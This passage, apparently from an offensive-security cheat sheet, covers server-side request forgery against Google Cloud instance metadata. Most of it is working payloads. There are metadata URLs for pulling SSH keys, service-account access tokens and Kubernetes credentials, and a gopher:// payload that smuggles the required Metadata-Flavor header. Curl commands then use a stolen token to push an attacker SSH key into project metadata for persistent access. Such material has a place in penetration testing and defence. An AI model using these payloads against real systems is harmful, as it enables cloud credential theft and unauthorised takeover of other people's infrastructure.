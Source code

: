 Beta does NOT require a header atm (thanks Mathias Karlsson @avlidienbrunn)

```powershell
http://metadata.google.internal/computeMetadata/v1beta1/
http://metadata.google.internal/computeMetadata/v1beta1/?recursive=true
```

Required headers can be set using a gopher SSRF with the following technique

```powershell
gopher://metadata.google.internal:80/xGET%20/computeMetadata/v1/instance/attributes/ssh-keys%20HTTP%2f%31%2e%31%0AHost:%20metadata.google.internal%0AAccept:%20%2a%2f%2a%0aMetadata-Flavor:%20Google%0d%0a
```

Interesting files to pull out:

- SSH Public Key : `http://metadata.google.internal/computeMetadata/v1beta1/project/attributes/ssh-keys?alt=json`
- Get Access Token : `http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token`
- Kubernetes Key : `http://metadata.google.internal/computeMetadata/v1beta1/instance/attributes/kube-env?alt=json`

#### Add an SSH key

Extract the token

```powershell
http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token?alt=json
```

Check the scope of the token

```powershell
$ curl https://www.googleapis.com/oauth2/v1/tokeninfo?access_token=ya29.XXXXXKuXXXXXXXkGT0rJSA  

{ 
        "issued_to": "101302079XXXXX", 
        "audience": "10130207XXXXX", 
        "scope": "https://www.googleapis.com/auth/compute https://www.googleapis.com/auth/logging.write https://www.googleapis.com/auth/devstorage.read_write https://www.googleapis.com/auth/monitoring", 
        "expires_in": 2443, 
        "access_type": "offline" 
}
```

Now push the SSH key.

```powershell
curl -X POST "https://www.googleapis.com/compute/v1/projects/1042377752888/setCommonInstanceMetadata" 
-H "Authorization: Bearer ya29.c.EmKeBq9XI09_1HK1XXXXXXXXT0rJSA" 
-H "Content-Type: application/json" 
--data '{"items": [{"key": "sshkeyname", "value": "sshkeyvalue"}]}'
```
